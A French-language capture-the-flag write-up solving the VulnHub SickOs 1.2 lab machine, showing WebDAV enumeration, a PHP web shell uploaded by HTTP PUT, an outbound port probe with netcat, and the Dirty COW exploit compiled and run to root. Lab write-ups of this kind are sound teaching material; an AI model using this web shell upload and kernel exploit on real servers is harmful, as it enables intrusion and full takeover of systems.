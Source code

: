 ```yaml
---
title: "Solution du CTF SickOs 1.2 de VulnHub"
tags: [CTF, VulnHub]
---
```


[SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/) est le second et dernier opus de la série. Il s'agit d'un boot2root Linux.

Avce Nmap on voit deux ports ouverts, les autres étant filtrés :

```
Nmap scan report for 192.168.57.4
Host is up (0.00083s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 66:8c:c0:f2:85:7c:6c:c0:f6:ab:7d:48:04:81:c2:d4 (DSA)
|   2048 ba:86:f5:ee:cc:83:df:a6:3f:fd:c1:34:bb:7e:62:ab (RSA)
|_  256 a1:6c:fa:18:da:57:1d:33:2c:52:e4:ec:97:e2:9e:af (ECDSA)
80/tcp open  http    lighttpd 1.4.28
|_http-server-header: lighttpd/1.4.28
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:CE:36:33 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Une énumération sur le LigHTTPd (avec `gobuster`) ne retourne pas grand chose si ce n'est un dossier `test` vide. Jetons un oeil aux méthodes HTTP autorisées :

```http
$ curl -XOPTIONS -I http://192.168.57.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Fri, 10 Feb 2023 16:46:23 GMT
Server: lighttpd/1.4.28
```

## Du côté de chez DAV

On est clairement en présence d'un `WebDAV`. J'ai tenté d'uploader un fichier avec `cadaver` qui est un peu l'équivalent de la commande ftp pour `WebDAV`.

Malheureusement on obtient une erreur peu parlante. J'ai essayé aussi avec `cURL` (option `-T`) et J'ai capturé la requête et la réponse avec Wireshark :

```http
PUT /test/test.txt HTTP/1.1
Host: 192.168.57.4
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 5
Expect: 100-continue

HTTP/1.1 417 Expectation Failed
Content-Type: text/html
Content-Length: 363
Connection: close
Date: Fri, 10 Feb 2023 17:18:32 GMT
Server: lighttpd/1.4.28

<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```

WebDAV peut nécessiter une authentification simple (*Authorization Basic*) mais difficile de dire s'il s'agit de ça ici.

Je me suis basé sur cette article qui indique différentes commandes `cURL` pour dialoguer avec WebDAV : [WebDAV with cURL | Code](https://code.blogs.iiidefix.net/posts/webdav-with-curl/)

J'arrive par exemple à créer un sous-dossier :

```bash
curl -X MKCOL http://192.168.57.4/test/yolo/
```

Etrange. Dans la requête générée plus tôt par `cURL` on peut voir un entête `Expect` et le message d'erreur retourné semble y faire référence.

On va essayer plus basique en forgeant la requête avec `requests` :

```python
>>> import requests
>>> requests.put("http://192.168.57.4/test/shell.php", data='<?php system($_GET["cmd"]); ?>')
<Response [201]>
```

Youpi, ça fonctionne !

```http
PUT /test/shell.php HTTP/1.1
Host: 192.168.57.4
User-Agent: python-requests/2.26.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Content-Length: 30

<?php system($_GET["cmd"]); ?>

HTTP/1.1 201 Created
Content-Length: 0
Date: Fri, 10 Feb 2023 17:50:50 GMT
Server: lighttpd/1.4.28
```

## Vache folle

Les ports de la machine sont filtrés et ça semble aussi compliqué d'obtenir un reverse shell.

Netcat est présent sur la machine, on peut faire un scan de notre IP depuis la VM et écouter avec Wireshark ce qui est autorisé.

On peut se baser sur la top liste Nmap des 10 ports les plus communs histoire que ça ne prenne pas des plombes :

```bash
ports=( 21 22 23 25 80 110 139 443 445 3389 ) ; for p in "${ports[@]}" ; do nc -z -w 2 -v 192.168.57.1 $p ; done
```

On observe alors un paquet avec flag SYN sur notre port 443.

Via un reverse-ssh sur ce port on peut uploader et exécuter linpeas qui indique que le système est vulnérable à `Dirty COW` ou à la vulnérabilité `chkrootkit`.

J'ai utilisé le premier exploit. Il est ici instable, après quelques secondes la machine part en kernel panic, il faut prévoir le coup si on souhaite de la persistance.

```bash
www-data@ubuntu:/tmp$ PATH=/usr/lib/gcc/i686-linux-gnu/4.6/:$PATH gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
/usr/include/unistd.h:335:16: note: expected '__off_t' but argument is of type 'void *'
cowroot.c: In function 'main':
cowroot.c:141:5: warning: format '%d' expects argument of type 'int', but argument 2 has type '__off_t' [-Wformat]
www-data@ubuntu:/tmp$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 41284
Racing, this may take a while..
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@ubuntu:/tmp# id
uid=0(root) gid=33(www-data) groups=0(root),33(www-data)
```

Pour la faille chkrootkit il y a un exemple dans la [Solution du CTF SecTalks: BNE0x02 - Fuku de VulnHub](https://github.com/devl00p/blog/blob/60492c127f22bed556e62c9ab179657af85a6935/ctf_writeups/Solution%20du%20CTF%20SecTalks:%20BNE0x02%20-%20Fuku%20de%20VulnHub.md#fuku)

*Publié le 11 février 2023*
